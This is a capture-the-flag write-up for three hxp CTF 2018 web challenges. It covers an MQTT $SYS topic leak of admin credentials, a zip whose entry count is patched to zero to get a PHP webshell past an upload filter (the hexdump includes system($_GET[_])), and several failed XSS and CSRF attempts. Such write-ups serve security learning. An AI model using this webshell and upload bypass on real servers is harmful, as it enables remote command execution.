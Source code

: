 # hxp CTF 2018

**It's recommended to read our responsive [web version](https://balsn.tw/ctf_writeup/20181207-hxpctf/) of this writeup.**


 - [hxp CTF 2018](#hxp-ctf-2018)
   - [Web](#web)
     - [time for h4x0rpsch0rr?](#time-for-h4x0rpsch0rr)
     - [unpack0r](#unpack0r)
       - [Failed Attempts](#failed-attempts)
     - [µblog](#µblog)
       - [Failled Attempts](#failled-attempts)


## Web

### time for h4x0rpsch0rr?

bookgin

The website uses MQTT websocket to receive the temperature.

```htmlmixed
...

<script src="mqtt.min.js"></script>
<script>
  var client = mqtt.connect('ws://159.69.212.240:60805')
  client.subscribe('hxp.io/temperature/Munich');
</script>
```

And there is admin panel, but username, password and OTP are required to login.

Let's take a look at the [document](https://www.hivemq.com/blog/mqtt-essentials-part-5-mqtt-topics-best-practices/). It does support wildcard charcaters.

>If you specify only the multi-level wildcard as a topic (#), you receive all messages that are sent to the MQTT broker.

I try to subscribe `#`, but no other messages are received. In the document, topics beginning with `$`  are not part of the subscription when you subscribe to the multi-level wildcard as a topic (#). 

Next is to subscribe `$SYS/#`. Bingo! I receive the message from `$internal/admin/webcam` channel. The message is actually an image. Decoding this image we will get admin's username, password and OTP. Login to the admin panel and get the flag. Note that the OTP will change in a few seconds.

```
curl 'http://159.69.212.240:8001/admin.php' -d 'user=iot_fag&password=I<3SecurID&otp=861729' -sD -
```

### unpack0r

bookgin

For the server side source code, please refer to [writeup by graneed](https://graneed.hatenablog.com/entry/2018/12/09/220317).

Basically, the server will unzip the file. However, the filename can only contain a-z. We cannot directly upload a webshell or `.htaccess`. 

The most notable thing here is the server uses php zip to check the filename, but it uses linux `unzip` to decompress the file. It's possible we can take advantage of this inconsistency. In the source, it uses php `zip->numFiles` and iterates each file to check the filename. What if we can make `zip->numFiles` return a incorrect number? So the plan is

1. zip a webshell `shell.php`
2. Make `zip->numFiles` return 0.
3. The zip file can still be decompressed by linux `unzip`.

Here is a [great document](https://users.cs.jmu.edu/buchhofp/forensics/formats/pkzip.html) describing the ZIP file format. in the end of central directory record, there are two attributes `Disk entry` and `Total entry`. Just patch number to zero (0x00) and we can upload the webshell.

```shell
$ xxd a.zip
00000000: 504b 0304 0a00 0000 0000 765a 884d 256d  PK........vZ.M%m
00000010: ec8c 1800 0000 1800 0000 0900 1c00 6161  ..............aa
00000020: 6161 612e 7068 7055 5409 0003 20ef 0b5c  aaa.phpUT... ..\
00000030: 20ef 0b5c 7578 0b00 0104 e803 0000 04e8   ..\ux..........
00000040: 0300 003c 3f70 6870 0a73 7973 7465 6d28  ...<?php.system(
00000050: 245f 4745 545b 5f5d 293b 0a50 4b01 021e  $_GET[_]);.PK...
00000060: 030a 0000 0000 0076 5a88 4d25 6dec 8c18  .......vZ.M%m...
00000070: 0000 0018 0000 0009 0018 0000 0000 0001  ................
00000080: 0000 00a4 8100 0000 0061 6161 6161 2e70  .........aaaaa.p
00000090: 6870 5554 0500 0320 ef0b 5c75 780b 0001  hpUT... ..\ux...
000000a0: 04e8 0300 0004 e803 0000 504b 0506 0000  ..........PK....
000000b0: 0000 0000 0000 4f00 0000 5b00 0000 0000  ......O...[.....
```

#### Failed Attempts
- zip a symbolic link
    - The server side seems to block symbolic links. It will return 403 Forbidden when trying to access symbolic links.
- zip a large number of files
    - There seems to be [a bug](http://php.net/manual/en/class.ziparchive.php#116937) when ziping more than 65,535 files. However I cannot reproduce this in PHP 7.2.
- Prepend local file header and data
    - The PHP will fail to parse the zip file

### µblog

unsolved, bookgin

Please refer to [herrera's writeup](https://github.com/lbherrera/writeups/tree/master/hxp-2018/blog). His writeup is very impressive! Also, full credit to the author of the challenge @_0xbb_. This is definitely one of the best web challenge I've seen this year.

#### Failled Attempts
- XSS in `$(location.hash)`
    - [The bug](https://bugs.jquery.com/ticket/9521) is fixed in 2012.
    - Nowadays the lateest browsers will encode the string in `location.hash`
- Leak url thorugh referer
    - It's totally useless because admin will never visit `/?id=ADMIN_ID`
    - In Chrome 70 there is [bug](https://bugs.chromium.org/p/chromium/issues/detail?id=884505&can=1&q=Referrer%20Policy&colspec=ID%20Pri%20M%20Stars%20ReleaseBlock%20Component%20Status%20Owner%20Summary%20OS%20Modified) used to bypass referer policy, but we cannot control the html attributes.
- img CSRF
    - However, I can only send GET request in img-src. Nothing can be exploited.
- [script gadgets](https://github.com/google/security-research-pocs/tree/master/script-gadgets)
    - We still need somewhere we can inject our XSS, but the page escapes all the html special characters.
